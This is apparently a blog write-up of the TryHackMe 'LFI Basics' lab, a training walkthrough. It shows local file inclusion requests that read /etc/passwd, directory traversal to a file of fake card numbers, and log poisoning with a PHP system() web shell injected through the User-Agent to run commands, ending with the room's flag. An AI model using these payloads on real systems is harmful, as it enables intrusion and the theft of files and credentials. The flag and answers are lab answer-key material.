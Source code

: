 ```yaml
---
title: Write-Up [THM] LFI Basics
template: "post"
date: "2020-08-28"
draft: false
category: "Write-Ups, TryHackMe"
tags:
  - "TryHackMe"
  - "LFI"
social-image: "/media/thm/lfiBasics/theme.png"
description: "It's a write-up about the room : [Try Hack Me - Room : LFI Basics](https://tryhackme.com/room/lfibasics)"
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI Basics](https://tryhackme.com/room/lfibasics)

# [Task 1] - Local File Inclusion

* What's the message you get when you include the home.html?

We went on `http://ip_machine/lfi/lfi.php/?page=home.html` and the message was **You included home.html**.

* What user that it's not by default there is present?

We read the passwd file : `http://ip_machine/lfi/lfi.php/?page=/etc/passwd` and found the user **lfi**.

# [Task 2] - Local File Inclusion using Directory Traversal

* Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)? **No** 

* What are the credit card numbers ? 

`http://ip_machine/lfi2/lfi.php/?page=../creditcard` and found **1111-2222-3333-4444**.

# [Task 3] - Reaching RCE using LFI and log poisoning

`http://ip_machine/lfi/lfi.php/?page=/var/log/apache2/access.log`

* Can you read the log (Yes/No)? **Yes**

* Give it a try and run uname -r. What's the output of the command?

`http://ip_machine/lfi/lfi.php?page=/var/log/apache2/access.log&lfi= uname -r`

With BurpSuite, we changed the User-Agent :  
`Mozilla/5.0 <?php system($_GET['lfi']); ?> Firefox/79.0`.   

And after that we send with the repeater : `http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r`.  
The answer is : `4.15.0-72-generic`

* With this knowledge read the flag from the lfi user home directory.

To begin we searched what file can contained the flag with the command ls in the lfi user home directory : `GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20../../../../../../home/lfi/`

We found :
```
Documents
Downloads
Music
Pictures
Public
Templates
Videos
flag.txt
```

Therefore we read the content of the file flag.txt : 
`GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20../../../../../../home/lfi/flag.txt`.  

We found the last flag : **THM{a352a5c2acfd22251c3a94105b718fea}**.